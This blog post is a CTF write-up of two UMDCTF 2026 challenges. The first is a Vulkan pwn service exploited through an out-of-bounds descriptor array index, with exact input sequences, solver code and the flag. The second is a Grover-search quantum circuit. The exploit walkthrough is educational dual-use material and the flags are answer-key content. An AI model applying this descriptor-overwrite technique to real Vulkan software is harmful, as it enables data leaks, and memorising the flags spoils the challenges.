


:::caution
Spoilers ahead. This post includes solution details, payloads, and flags.
:::

UMDCTF 2026 had a funny spread for me. One challenge asked me to leak a flag through Vulkan descriptor bookkeeping, which is not a sentence I expected to write this year. The other one handed me a quantum oracle and politely asked me to do math instead of panic.

This post collects two solves: `[Pwn] vkexchange` and `[Misc] quant?`. The pwn section gets a little more room because the bug is unusual and very easy to misunderstand at first. The quantum section is cleaner, but still has a nice “one number off and nothing happens” moment.

---

## [Pwn] vkexchange

`vkexchange` is a stock-market themed service backed by Vulkan. That already sounds like a fever dream, but the core bug is surprisingly clean: a user-controlled price index becomes a Vulkan descriptor-array index, and that lets me redirect where the settlement shader writes.

In plain words: I made the GPU copy the flag into my account balance sheet. Very normal banking behavior.

### What made this challenge interesting

The normal account buffers were boring in the best way. Reads and writes were bounded, and the menu did not give me an easy heap or stack overflow.

The interesting part was not the account memory itself. It was the metadata that told the Vulkan shader which buffers to use.

The flag was copied into an oracle buffer during exchange setup:

```c
static void init_resolution(App *app) {
    const char *env = getenv("FLAG");
    if (!env || !*env) {
        env = "UMDCTF{test_flag}";
    }
    snprintf(app->resolution, sizeof(app->resolution), "%s", env);

    make_raw_buffer(app, &app->oracle_buf, RESOLUTION_WORDS * sizeof(uint32_t));
    memcpy(app->oracle_buf.map, app->resolution, resolution_len);
    make_raw_buffer(app, &app->clearing_buf, RESOLUTION_WORDS * sizeof(uint32_t));
}
```

So the flag was already in GPU-visible memory. The challenge was to convince the compute shader to copy it somewhere I could read.

### Background: the two important buffers

The settlement shader used two storage-buffer bindings:

```glsl
layout(set = 0, binding = 0) readonly buffer OracleBook {
    uint oracle_words[];
};

layout(set = 0, binding = 1) writeonly buffer ClearingBook {
    uint clearing_words[];
};
```

Normal behavior:

- binding 0 points to `oracle_buf`, which contains the flag
- binding 1 points to `clearing_buf`, which is private
- settlement copies one 4-byte word at a time

The shader logic was basically:

```glsl
clearing_words[push.index] = oracle_words[push.index];
```

So if I could make `clearing_words` point to my account buffer, the shader would become a very fancy flag printer.

### Step 1: Find where user input reaches Vulkan descriptors

The helper that updates descriptors was straightforward:

```c
static void update_storage_desc(App *app, VkDescriptorSet set, uint32_t binding,
                                uint32_t array_elem, VkBuffer buf,
                                VkDeviceSize off, VkDeviceSize range) {
    VkDescriptorBufferInfo info = desc_info(buf, off, range);
    VkWriteDescriptorSet write = {
        .sType = VK_STRUCTURE_TYPE_WRITE_DESCRIPTOR_SET,
        .dstSet = set,
        .dstBinding = binding,
        .dstArrayElement = array_elem,
        .descriptorCount = 1,
        .descriptorType = VK_DESCRIPTOR_TYPE_STORAGE_BUFFER,
        .pBufferInfo = &info,
    };
    vkUpdateDescriptorSets(app->device, 1, &write, 0, NULL);
}
```

The bug lived in `menu_quote_position()`:

```c
uint64_t idx = ask_u64("price_index: ");
...
if (idx < MIN_PRICE_INDEX || idx > MAX_PRICE_INDEX) {
    puts("bad price index");
    return;
}
...
update_storage_desc(app, app->quote_book, 0, (uint32_t)idx,
                    b->buf, off, range);
```

The program checks `idx` as a price index, but then uses it as `dstArrayElement` in `vkUpdateDescriptorSets()`.

That is the mismatch. The quote descriptor binding has only one storage-buffer descriptor, but valid price indexes start at `32768`. That is not “a little out of bounds.” That is “walk into the next building” out of bounds.

### Step 2: Aim the descriptor overwrite

During normal exchange setup, settlement binding 1 points to the private clearing buffer:

```c
update_storage_desc(app, app->settlement_book, 1, 0,
                    app->clearing_buf.buf, 0, app->clearing_buf.size);
```

I wanted the out-of-bounds quote descriptor update to overwrite that descriptor, replacing `clearing_buf` with account 0.

The exact values that lined up in the challenge's lavapipe runtime were:

```text
account size   = 256
outcome_slots  = 32768
memo_bytes     = 8
price_index    = 32778
account        = 0
offset         = 0
range          = 256
rounds         = 0..63
```

The `memo_bytes = 8` part was the tiny goblin detail. With `memo_bytes = 0`, the idea looked right but the overwrite missed the target descriptor. With `8`, the descriptor metadata lined up and settlement binding 1 became my account buffer.

:::warning
This was not a normal C buffer overflow. The account buffer stayed bounded. The bug was in Vulkan descriptor metadata, so the important target was the shader binding, not a C return address.
:::

### Step 3: Run the exploit sequence

The manual menu flow was short:

```text
1
256
4
32768
8
5
6
32778
0
0
256
```

That does:

1. create account 0 with 256 bytes
2. list one large market
3. use `memo_bytes = 8` for alignment
4. open the exchange
5. quote a position with `price_index = 32778`
6. point the overwritten descriptor at account 0

Then I settled each possible flag word:

```text
7
0
7
1
7
2
...
7
63
```

Each `settle_market(round)` copied one 4-byte word from `oracle_buf` into what should have been `clearing_buf`, but was now account 0.

### Step 4: Audit account 0 and decode the leak

Finally I audited the account:

```text
3
0
0
256
```

The service printed a long hex string. The solver decoded it like this:

```python
data = io.recvuntil(b"\n\n")
hex_blob = re.search(rb"([0-9a-f]{64,})", data).group(1)
leak = bytes.fromhex(hex_blob.decode())
print(re.search(rb"UMDCTF\{[^}]+\}", leak).group(0).decode())
```

Expected output:

```text
UMDCTF{yeah_im_sorry_for_making_this_i_know_its_really_annoying_but_at_least_maybe_you_learned_vulkan}
```

:::note[Flag]
`UMDCTF{yeah_im_sorry_for_making_this_i_know_its_really_annoying_but_at_least_maybe_you_learned_vulkan}`
:::

### Why the solve worked

The shader never needed to know it was leaking a flag. It only copied:

```text
oracle_words[i] -> clearing_words[i]
```

The exploit changed what `clearing_words` meant. After the descriptor overwrite, `clearing_words` pointed to account 0. Then `audit_account()` became the final read primitive.

That is the cute part of this challenge: the GPU did exactly what it was told. I just changed who was holding the clipboard.

### Concept map



---

## [Misc] quant?

`quant?` was much more polite. It did not ask me to argue with Vulkan. It simply handed me 16 qubits, one oracle, and a quiet hint that Grover was standing behind the curtain wearing sunglasses.

### What made this challenge interesting

The service accepted one OpenQASM-like circuit. The setup was:

- 16 input qubits: `q[0]` through `q[15]`
- one ancilla: `q[16]`
- one 16-bit classical register
- a black-box `oracle`
- a helper called `diffuse`
- at most 250 oracle calls
- 512 shots

That is almost a neon sign saying “use Grover search.” The only real tuning question was how many iterations to use.

### Step 1: Estimate the Grover iteration count

There are:

```text
2^16 = 65536
```

possible marked states. For one hidden marked state, the usual Grover estimate is:

```text
floor(pi / 4 * sqrt(65536))
= floor(pi / 4 * 256)
= 201
```

So 201 was the first natural guess. It was syntactically accepted, but it did not print the flag. Quantum challenges enjoy being dramatic like that.

Trying nearby values showed that `200` iterations was the winner. It placed all 512 shots on one state and triggered the flag output.

### Step 2: Build the circuit

The circuit had four parts:

1. put all 16 input qubits into superposition
2. prepare the ancilla as `|->`
3. repeat `oracle` then `diffuse` 200 times
4. measure all input qubits

The solver generated the circuit like this:

```python
def build_circuit(iters=200):
    n = 16
    lines = [
        "OPENQASM 2.0;",
        'include "qelib1.inc";',
        "qreg q[17];",
        "creg c[16];",
    ]

    for i in range(n):
        lines.append(f"h q[{i}];")

    lines += ["x q[16];", "h q[16];"]

    args16 = ",".join(f"q[{i}]" for i in range(n))
    args17 = ",".join(f"q[{i}]" for i in range(n + 1))

    for _ in range(iters):
        lines.append(f"oracle {args17};")
        lines.append(f"diffuse {args16};")

    for i in range(n):
        lines.append(f"measure q[{i}] -> c[{i}];")

    lines.append("END")
    return "\n".join(lines) + "\n"
```

The ancilla preparation matters because the oracle needs phase kickback. The `x; h;` sequence prepares `q[16]` as `|->`, which lets the hidden condition become a phase flip on the input state.

### Step 3: Submit the circuit and read the counts

After proof-of-work, the script sent the circuit and collected output.

The useful result was:

```text
counts:
0110010101111010: 512
UMDCTF{0110010101111010}
```

All 512 shots landed on the same bitstring, so the service accepted it as enough probability mass on the hidden marked state.

:::note[Flag]
`UMDCTF{0110010101111010}`
:::

### Why 200 worked better than the obvious 201

The textbook count gives the right neighborhood, not always the exact service-winning integer. Real challenge simulators may differ slightly because of bit ordering, oracle conventions, ancilla behavior, or the service’s own threshold. So I treated `201` as a starting point, then checked nearby counts.

In this case, `200` was the sweet spot. The lesson is simple: do the math, then still test the fence posts.

### Concept map



---

## References

- [Vulkan Specification - Descriptor Sets](https://registry.khronos.org/vulkan/specs/latest/html/chap14.html) - background for descriptor sets and descriptor updates used in `vkexchange`
- [Vulkan `VkWriteDescriptorSet`](https://registry.khronos.org/vulkan/specs/latest/man/html/VkWriteDescriptorSet.html) - reference for `dstArrayElement`, the field abused in the pwn challenge
- [Mesa lavapipe documentation](https://docs.mesa3d.org/drivers/llvmpipe.html) - useful context for software Vulkan/GPU behavior through Mesa
- [Qiskit textbook - Grover's Algorithm](https://qiskit-community.github.io/qiskit-textbook/ch-algorithms/grover.html) - background for the amplitude amplification idea in `quant?`
- [OpenQASM 2.0 documentation](https://openqasm.com/) - syntax background for the submitted circuit

## Closing notes

These two challenges were a nice pair. `vkexchange` was the kind of pwn challenge where the memory corruption lives one abstraction layer away from where I first looked. `quant?` was a clean reminder that sometimes the exploit is just choosing the right algorithm and nudging one parameter until the universe agrees.

In short: one flag came from a confused Vulkan descriptor, and one came from Grover doing exactly what Grover does. That is a pretty good CTF day.
